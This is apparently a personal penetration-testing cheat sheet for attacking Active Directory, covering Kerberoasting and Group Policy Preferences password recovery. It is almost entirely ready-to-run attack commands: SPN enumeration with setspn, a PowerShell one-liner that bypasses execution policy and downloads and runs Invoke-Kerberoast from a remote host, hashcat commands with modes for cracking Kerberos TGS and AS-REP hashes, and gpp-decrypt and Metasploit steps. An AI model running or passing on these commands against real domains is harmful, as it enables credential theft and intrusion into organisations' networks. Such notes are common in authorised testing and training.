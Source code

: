 ```yaml
---
category: Uncategorized
tags: []
---
```

AD

**KERBEROASTING**

Enumerating Accounts in SPN (Service Principal Name):

Powershell Commands when Accessible

~~~PowerShell
setspn -T "DOMAIN\USER" -Q ​ */*
~~~

~~~PowerShell
powershell.exe -NoP -NonI -Exec Bypass IEX (New-Object Net.WebClient).DownloadString('http://10.13.7.30/Windows/Powershell/Empire/module_source/credentials/Invoke-Kerberoast.ps1');Invoke-Kerberoast -erroraction silentlycontinue -OutputFormat Hashcat
~~~

Decrypt etype23 Hashes from Kerberoasted passwords:

format::
$krb5tgs$23$*SQLService$CONTROLLER.local$CONTROLLER-1/SQLService.CONTROLLER.local:30111*$A88A8D57DAEBC82CC......

~~~bash
hashcat -m 13100 -​a 0 hash.txt wordlist --force
~~~

Decrypt etype23 Hashes from AS-REP passwords:

format::
$krb5asrep$Admin2@CONTROLLER.local:C669E64E38F0BDC104039C58......

~~~bash
hashcat -m 18200 hash.txt Pass.txt
~~~

**GPP**

https://www.rapid7.com/blog/post/2016/07/27/pentesting-in-the-real-world-group-policy-pwnage/

Relies on groups.xml found in sysvol

~~~bash
gpp-decrypt Hash
~~~

Metasploit post module

~~~bash
smb_enum_gpp
~~~

